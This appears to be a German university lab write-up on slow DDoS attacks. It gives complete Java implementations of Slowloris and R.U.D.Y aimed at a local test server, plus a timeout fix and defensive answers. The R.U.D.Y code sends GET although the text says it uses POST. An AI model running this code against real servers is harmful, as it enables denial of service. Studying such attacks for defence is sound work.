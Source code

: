 ```yaml
---
title: Slow DDoS-Angriffe 
author: Paul Nykiel
date: \today
---
```


# Webserver
Die `SimpleHTTPServer` Klasse wurde folgendermaßen angepasst:
```java
public static void main (String[] args) throws IOException {
    ExecutorService executorService = Executors.newFixedThreadPool(threadPoolSize);

    ServerSocket serverSocket = new ServerSocket(port);
    while (true) {
        Socket clientSocket = serverSocket.accept();

        executorService.submit(new ConnectionThread(clientSocket));

        //new ConnectionThread(clientSocket).start();

        System.out.println("Connection from " + clientSocket.getRemoteSocketAddress()
                + "; Active Connections: " + ConnectionThread.activeConnections.get());
    }
}
```

# Slow Loris
Die gesamte Slow-Loris Implementierung (Aufgabe 2 und 4) sieht folgendermaßen aus:
```java
package assignment.attacks;

import java.io.IOException;
import java.net.Socket;
import java.util.ArrayList;
import java.util.List;
import java.util.Random;
import java.util.concurrent.ThreadLocalRandom;

public class Slowloris {
    static String host = "127.0.0.1";
    static int port = 12345;
    static int threads;

    static List<Socket> socketList;

    public static void main(String[] args) throws InterruptedException, IOException {
        // Not with executor to save resources on attacker side
        socketList = new ArrayList<>();

        for (int c=0; c<15; ++c) {
            openSocket();
        }

        while (true) {
            Thread.sleep(8000);
            for (var socket : socketList) {
                sendLine(socket);
            }
        }
    }

    private static void openSocket() throws IOException {
        Socket socket = new Socket(host, port);
        var ostream = socket.getOutputStream();

        String header = "POST / HTTP/1.1";

        ostream.write(header.getBytes());

        socketList.add(socket);
    }

    private static void sendLine(Socket socket) throws IOException {
        var ostream = socket.getOutputStream();

        StringBuilder field = new StringBuilder();
        for (int c=0; c<8; ++c) {
            byte asciiVal = (byte) (ThreadLocalRandom.current().nextInt(46) + 'A');
            if (asciiVal > 'Z') {
                asciiVal = (byte) (asciiVal - 'A' - 26 + 'a');
            }
            field.append((char) asciiVal);
        }

        String line = "\r\nX-" + field.toString() + ": " + ThreadLocalRandom.current().nextInt(10000);
        System.out.print(line);

        ostream.write(line.getBytes());
    }
}
```

# WebServer-Timeouts
Für Timeouts (hier 10 Sekunden) wurde folgende Zeile am begin der `run`-Methode des `ConnectionThread` ergänzt:
```java
clientSocket.setSoTimeout(10000);
```


# R.U.D.Y
Die R.U.D.Y Implementierung ist quasi identisch zu Slow-Lorris, nur mit Post-Requests:
```java
package assignment.attacks;

import java.io.IOException;
import java.net.Socket;
import java.util.ArrayList;
import java.util.List;
import java.util.concurrent.ThreadLocalRandom;

public class RuDY {

    static String host = "127.0.0.1";
    static int port = 12345;
    static int threads;

    static List<Socket> socketList;

    public static void main(String[] args) throws IOException, InterruptedException {
        // Not with executor to save resources on attacker side
        socketList = new ArrayList<>();

        for (int c=0; c<15; ++c) {
            openSocket();
        }

        while (true) {
            Thread.sleep(8000);
            for (var socket : socketList) {
                sendLine(socket);
            }
        }
    }

    private static void openSocket() throws IOException {
        Socket socket = new Socket(host, port);

        var ostream = socket.getOutputStream();

        String header = "GET / HTTP/1.1";

        ostream.write(header.getBytes());

        socketList.add(socket);
    }

    private static void sendLine(Socket socket) throws IOException {
        var ostream = socket.getOutputStream();

        StringBuilder field = new StringBuilder();
        for (int c=0; c<8; ++c) {
            byte asciiVal = (byte) (ThreadLocalRandom.current().nextInt(46) + 'A');
            if (asciiVal > 'Z') {
                asciiVal = (byte) (asciiVal - 'A' - 26 + 'a');
            }
            field.append((char) asciiVal);
        }

        String line = "\r\nX-" + field.toString() + ": " + ThreadLocalRandom.current().nextInt(10000);
        System.out.print(line);

        ostream.write(line.getBytes());
    }
}
```

# Fragen
 * Es handelt es sich um eine Apache ähnliche Architektur, da für jede Verbindung ein neuer Thread aufgemacht wird,
    dadurch wird der Server anfällig für Slow DDoS Angriffe.
 * Manche Endgeräte (vor allem mobile Geräte mit schlechter Internetanbindung) senden im regulären Betrieb bereits
    nur sehr langsam Daten und könnten so fälschlicherweise als Angreifer klassifiziziert und damit ausgeschlossen
    werden.
 * Nein, so kann der Server nur noch weiter überlastet werden. Die Kosten für weitere Verbindungen sind für den Server
    im vergleich zum Angreifer deutlich größer.
 * Ansätze:
   * Bessere Serverarchitektur: nicht für jeden Client eine eigene Verbindung, eher wie Nginx
   * Semantische Nachrichtenanalyse: Kontroller ob Empfangene Nachrichten (-Teile) sinnvoll sind
   * Minimale Übertragungsraten (muss natürlich entsprechend gewählt werden, so dass valide Clients weiter zugreifen
        können).
